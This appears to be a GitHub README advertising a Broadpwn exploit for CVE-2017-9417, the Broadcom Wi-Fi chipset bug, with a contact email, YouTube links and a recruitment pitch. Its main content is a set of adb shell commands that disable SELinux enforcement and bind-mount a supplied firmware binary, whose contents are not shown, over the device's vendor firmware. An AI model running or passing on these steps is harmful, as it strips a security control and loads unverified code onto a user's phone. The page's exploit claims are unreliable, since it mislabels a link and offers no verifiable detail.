 
# Broadpwn
- Join or Ask: Linnebergmai@gmail.com 
- Broadpwn Youtube: https://youtu.be/GTb4Y2Y9shw 
- BlueBorne: https://github.com/mailinneberg/Broadpwn | Youtube https://youtu.be/FJGGMyg0W38
- Help PR.

Broadpwn bug (CVE-2017-9417)

  Remotely Compromising Android and iOS via a Bug in Broadcom’s Wi-Fi Chipsets

  $ adb shell 
  
  #setenforce 0
  
  #cp fw_bcmdhd.bin /data/local/tmp/firmware/
  
  #chmod 755 /data/local/tmp/firmware/fw_bcmdhd.bin
  
  #mount -o bind /data/local/tmp/firmware /vendor/firmware
  
  #start 

  Join to our team for developing new software.

  If you have any questions, feel free to ask for more information: Linnebergmai@gmail.com
 
  Whatch the instruction: https://youtu.be/GTb4Y2Y9shw

